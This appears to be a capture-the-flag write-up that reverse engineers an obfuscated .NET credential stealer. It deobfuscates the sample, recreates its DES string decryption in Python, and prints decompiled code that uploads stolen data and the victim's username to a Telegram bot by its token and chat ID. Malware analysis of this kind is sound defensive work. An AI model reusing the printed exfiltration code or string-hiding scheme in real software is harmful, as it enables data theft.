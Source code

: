 # stealer
### Overview

The task involved reverse engineering a `.Net 32-bit` executable named `snake.mal`. The primary objective was to analyze the executable, identify its functionality, and decode any hidden or encrypted data within the file. The reversing process was conducted using several tools, including `de4dot` for deobfuscation and custom scripts to decrypt strings used by the malware.

### Initial Analysis

Upon opening `snake.mal.exe` in a decompiler, it was evident that the executable was heavily obfuscated. The functions and classes were renamed to nonsensical names, making manual analysis difficult.

![image](https://github.com/user-attachments/assets/c7aade9d-9670-4ff0-97c2-2c966c68a8a4)


To proceed with the analysis, `de4dot` was employed to clean the obfuscated code. Running the tool produced a cleaned version of the executable, where the obfuscated symbols were renamed to more readable forms, significantly easing the analysis process.

```jsx
C:\Users\mahmoud\Desktop> C:\Tools\de4dot\de4dot.exe snake.mal

de4dot v3.1.41592.3405 Copyright (C) 2011-2015 de4dot@gmail.com
Latest version and source code: https://github.com/0xd4d/de4dot

Detected Unknown Obfuscator (C:\Users\mahmoud\Desktop\snake\snake.mal)
Cleaning C:\Users\mahmoud\Desktop\snake\snake.mal
Renaming all obfuscated symbols
Saving C:\Users\mahmoud\Desktop\snake\snake-cleaned.mal
```

![image](https://github.com/user-attachments/assets/34de0158-f1ff-491b-8a49-4417c771aee0)


With the code now more readable, we can delve into its functionality.

Found some functions that provide clear evidence that the malware is stealing data.

![image](https://github.com/user-attachments/assets/f641cca3-ed1a-44ba-8e0d-c40b52f98074)


Other numerous functions have been identified that appear to interact with Telegram.

![image](https://github.com/user-attachments/assets/893047fe-11d4-4aca-885b-fd511b1540e3)


If we examine the methods from the previous screenshot, several of them call a function named `smethod_16`, each passing different encrypted strings to it.



The `smethod_16` function is a decryption method, which utilized DES encryption with a key derived from an MD5 hash. 

![image](https://github.com/user-attachments/assets/d486e355-593a-49b9-9429-542bed21440c)


Wrote Python script to replicate this decryption process:

```jsx
import base64
from Crypto.Cipher import DES
from Crypto.Hash import MD5

def smethod_16(encrypted_string, key):
    try:
        des = DES.new(MD5.new(key.encode()).digest()[:8], DES.MODE_ECB)
        decrypted_bytes = des.decrypt(base64.b64decode(encrypted_string))
        decrypted_string = decrypted_bytes.decode()
        return decrypted_string
    except Exception as e:
        print(f"Error decrypting string: {e}")
        return None
    
   
print(smethod_16("zMaRPCbE0Gb4k/zB6ZNS3r1L34TENqMZD9RW6hkhoOE=", "nnrCOnrJyiwsACMwnkEJB"))
# result "https://api.telegram.org/bot"

print(smethod_16("FphMdFa3hOQv6jbOo+Di/krf6/KeCXcASv1A0PTZtTaqOQqu46FvhqM0pdqb8g0/", "BsrOkyiChvpfhAkipZAxnnChkMGkLnAiZhGMyrnJfULiDGkfTkrTELinhfkLkJrkDExMvkEUCxUkUGr"))
# result "7267561120:QkhGbGFnWXt0M2xlZ3I0bV9nMGVzX3chbGR9"
```

So that part of the code will result

```jsx
			ServicePointManager.Expect100Continue = false;
			ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;
			string text2 = string.Concat(new string[]
			{
				https://api.telegram.org/bot,
				7267561120:QkhGbGFnWXt0M2xlZ3I0bV9nMGVzX3chbGR9,
				/sendDocument?chat_id=,
				5481237002,
				"&caption=",
				string.Concat(new string[]
				{
					" Pc Name: ",
					Environment.UserName,
					" | Snake Tracker\r\n\r\nPW | ",
					Environment.UserName,
					" | Snake\r\n\r\n\r\n"
				})
			});
```

Given our understanding of the Telegram API, these strings are parameters used to communicate with a Telegram bot. This suggests that the malware is designed to steal data and then use the bot to upload that data.

To obtain the flag, all we needed to do was decode the bot token, which revealed the flag.

